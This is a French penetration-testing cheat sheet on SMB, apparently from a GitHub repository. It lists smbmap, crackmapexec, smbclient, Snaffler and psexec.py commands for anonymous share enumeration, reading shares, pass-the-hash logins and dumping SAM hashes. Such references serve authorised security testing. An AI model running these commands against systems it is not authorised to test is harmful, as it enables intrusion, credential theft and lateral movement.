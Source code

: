 # SMB

### Enumération des partages réseau

* Lister les partages réseau d'une machine de manière anonyme :

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>

cme smb <IP>/<MASK> -u '' -p '' --shares
```

**Note :** _lors d'une session anonyme, mettre une lettre dans le champ `"u"` peut afficher davantage de partages._

* Lister les partages réseau d'une machine avec des identifiants :

```
# Avec un mot de passe
smbmap -u "username" -p "password" -H <IP>
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares

# Avec un hash
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

### Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

L'outil `snaffler` peut être utilisé pour automatiser la lecture des partages réseau. De plus, il remonte des informations potentiellement sensibles :&#x20;

```
Snaffler.exe -s -o Snaffler-result.txt
```

### Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

### Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

### Signatures SMB

```
cme smb <IP>
```
